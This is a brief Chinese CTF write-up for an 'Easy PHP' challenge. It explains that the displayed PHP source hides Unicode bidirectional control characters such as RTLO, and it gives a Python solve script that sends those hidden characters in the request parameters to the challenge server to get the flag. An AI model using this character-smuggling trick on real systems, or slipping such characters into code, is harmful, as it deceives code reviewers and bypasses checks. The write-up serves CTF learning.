

#  Easy PHP


进入网页，看到php源码。


F12查看，似乎并不是按照表面的顺序排列的。



扔到winhex里面看，得到真实的显示内容，其中包括了一些BIDI字符（如RTLO），会影响字符串的显示顺序。


也就是说表单内容里面是包含这些隐藏字符的，用python发请求，带上这些字符，得到flag。


EXP：
```python
import requests

url = 'http://124.71.176.131:10001/'

params = {
    'username': 'admin',
    chr(8238)+chr(8294)+'L3H'+chr(8297)+chr(8294)+'password': chr(8238)+chr(8294)+'CTF'+chr(8297)+chr(8294)+'l3hctf'}
print(params)
r = requests.get(url, params)
print(r.text)
```
